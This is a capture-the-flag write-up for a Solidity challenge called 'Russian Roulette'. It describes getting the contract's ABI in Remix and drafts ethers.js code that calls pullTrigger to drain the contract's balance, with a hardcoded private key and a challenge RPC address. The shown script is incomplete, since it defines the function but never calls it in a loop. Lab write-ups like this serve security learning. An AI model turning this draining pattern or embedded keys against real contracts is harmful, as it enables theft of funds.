 # Blockchain

## Russian Roulette

First of all, looking through the files, we see `.sol` files, which are related to `Solidity` contracts. We'll need to install some software to be able to compile those. I went with the use of `Remix IDE` for this one.

Analzying the source code, we see that the condition for this challenge to be solved it needs the balance to be 0. For the balance to be emptied, the condition in the `pullTrigger` function needs to happen.

For us to be able to interact with that contract, we need some things. Connect to the `nc` instance to get connection information, such as the private key and the address of the target contract. Then, use Remix IDE to compile the `RussianRoulette` contract, so we can obtain its `ABI` (Application-Binary-Interface = allows an app to see how to interact with this specific contract).

For interacting with this, I've chosen to use `ethers` (Node.JS). Choose `ethers` version 5.0.7, otherwise you'll get an error, since from that version and up they don't JSONify the responses.

Now, the other port is for the `RPC` (Remote-Procedure-Call). That is what we'll use to interact with our contract.

Basically, we need to call `pullTrigger`, then check the balance of the contract. We do this until the balance reaches 0.
After it reaches 0, connect to the `nc` instance and get the flag.

```Javascript
		const { ethers } = require('ethers');
		const PRIVATE_KEY = "0x537916f4f852b0967d676f468dcb1d24bffce762cdd803b92575e02780ccf470";
		const RUSSIAN_ROULETTE_ADDRESS = "0xd432C143DD770852db4544753936f8712515e5ab";
		const RUSSIAN_ROULETTE_ABI = [
		    {
		        "inputs": [],
		        "stateMutability": "payable",
		        "type": "constructor"
		    },
		    {
		        "inputs": [],
		        "name": "pullTrigger",
		        "outputs": [
		            {
		                "internalType": "string",
		                "name": "",
		                "type": "string"
		            }
		        ],
		        "stateMutability": "nonpayable",
		        "type": "function"
		    }
		];
		const provider = new ethers.providers.JsonRpcProvider("http://94.237.54.164:31826");
		const wallet = new ethers.Wallet(PRIVATE_KEY, provider);
		const russianRouletteContract = new ethers.Contract(RUSSIAN_ROULETTE_ADDRESS, RUSSIAN_ROULETTE_ABI, wallet);
		async function pullTrigger() {
		    console.log("Attempting to pull the trigger...");
		    try {
		        const tx = await russianRouletteContract.pullTrigger();	        
		        await tx.wait();
		        console.log("Transaction mined: ", tx.hash);
		    } catch (error) {
		        console.error("Error pulling the trigger: ", error);
		    }
		}
```